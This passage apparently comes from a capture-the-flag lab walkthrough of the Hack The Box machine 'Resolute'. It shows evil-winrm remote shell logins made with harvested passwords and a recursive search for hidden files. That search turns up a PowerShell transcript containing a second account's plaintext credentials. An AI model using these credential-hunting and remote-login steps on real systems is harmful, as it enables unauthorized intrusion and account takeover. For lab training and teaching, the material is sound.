 It works for the user `melanie`. Let's try if the credentials work on WinRM as well.

```
$ evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\melanie\Documents>
```

We find the **user.txt** on melanie's Desktop.

## Finding Credentials In Hidden Files

As part of our enumeration, we searched for hidden files on the machine. 

`*Evil-WinRM* PS C:\> ls -recurse -hidden -erroraction silentlycontinue`

```
<SNIP>
    Directory: C:\PSTranscripts\20191203


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-arh--        12/3/2019   6:45 AM           3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
<SNIP>
```

A [powershell transcript](https://mcpmag.com/articles/2015/11/18/use-powershell-transcripts.aspx) stands out.

Reviewing the transcript reveals a set of credentials.

```
*Evil-WinRM* PS C:\> cat C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
<SNIP>
Command start time: 20191203063515
**********************
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
<SNIP>
```

Let's try to switch to the account of `ryan` with the newfound credentials.

```
$ evil-winrm -i 10.10.10.169 -u ryan -p Serv3r4Admin4cc123!

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\ryan\Documents>
```
